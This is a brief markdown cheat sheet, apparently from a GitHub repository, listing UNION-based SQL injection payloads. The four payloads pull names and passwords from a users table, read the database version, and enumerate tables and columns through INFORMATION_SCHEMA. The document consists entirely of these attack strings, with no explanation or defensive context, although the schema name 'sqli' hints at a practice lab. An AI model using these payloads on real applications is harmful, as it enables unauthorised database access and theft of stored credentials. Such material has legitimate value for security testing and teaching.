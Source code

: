 # SQLI UNION

```sql
UNION SELECT 1,name,3,password FROM users;
```

## Version and database

```sql
UNION SELECT 1,name,@@version,password FROM users;
```

## Tables
```sql
UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='sqli'
```

## Columns

```sql
UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='users'
```# sqli
